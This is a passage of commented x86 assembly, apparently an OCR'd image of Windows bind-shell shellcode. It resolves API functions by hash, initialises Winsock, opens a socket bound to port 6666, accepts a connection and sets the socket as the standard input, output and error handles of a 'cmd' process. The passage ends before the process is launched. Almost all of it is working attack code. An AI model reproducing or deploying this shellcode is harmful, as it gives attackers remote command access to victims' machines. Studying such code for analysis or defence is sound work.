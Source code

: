```asm
    add ebp, [ebx + 4 * edi] 	; add to ebp (base addr of module) the 
                  ; relative offset of matched function 
    xchg eax, ebp 				; move func addr into eax 
    pop edi 					; edi is last onto stack in pushad 
    stosd 					; write function addr to [edi] and increment edi 
    push edi 
    popad					; restore registers 
    cmp esi, edi 				; loop until we reach end of last hash 
    jne find_lib_functions 
    pop esi 					; saved location of first winsock function 
                  ; we will lodsd and call each func in sequence 
    
  ; initialize winsock 
    
    push esp 					; use stack for WSADATA 
    push 0x02 				; wVersionRequested 
    lodsd 
    call eax 					; WSAStartup 
    
  ; null-terminate "cmd" 
    mov byte ptr [esi + 0x13], al ; eax = 0 if WSAStartup() worked 
    
  ; clear some stack to use as NULL parameters 
    lea ecx, [eax + 0x30] 		; sizeof(STARTUPINFO) = 0x44, 
    mov edi, esp 
    rep stosd 				; eax is still 0 
  
  ; create socket 
    inc eax 
    push eax					; type = 1 (SOCK_STREAM) 
    inc eax 
    push eax ; af = 2 (AF_INET) 
    lodsd 
    call eax ; WSASocketA 
    xchg ebp, eax				; save SOCKET descriptor in ebp (safe from 
                  ; being changed by remaining API calls) 
    
  ; push bind parameters 
    mov eax, 0x0a1aff02 		; 0x1a0a = port 6666, 0x02 = AF_INET 
    xor ah, ah					; remove the ff from eax 
    push eax	 				; we use 0x0a1a0002 as both the name (struct 
                  ; sockaddr) and namelen (which only needs to 
                  ; be large enough) 
    push esp 					; pointer to our sockaddr struct 
    
  ; call bind(), listen() and accept() in turn 
  call_loop: 
    push ebp					; saved SOCKET descriptor (we implicitly pass 
                  ; NULL for all other params) 
    lodsd 
    call eax 					; call the next function 
    test eax, eax 				; bind() and listen() return 0, accept() 
                  ; returns a SOCKET descriptor 
    jz call_loop 
    
  ; initialise a STARTUPINFO structure at esp 
    inc byte ptr [esp + 0x2d] 	; set STARTF_USESTDHANDLES to true 
    sub edi, 0x6c 				; point edi at hStdInput in STARTUPINFO 
    stosd 					; use SOCKET descriptor returned by accept 
                ; (still in eax) as the stdin handle 
    stosd 					; same for stdout 
    stosd					; same for stderr (optional) 
    
```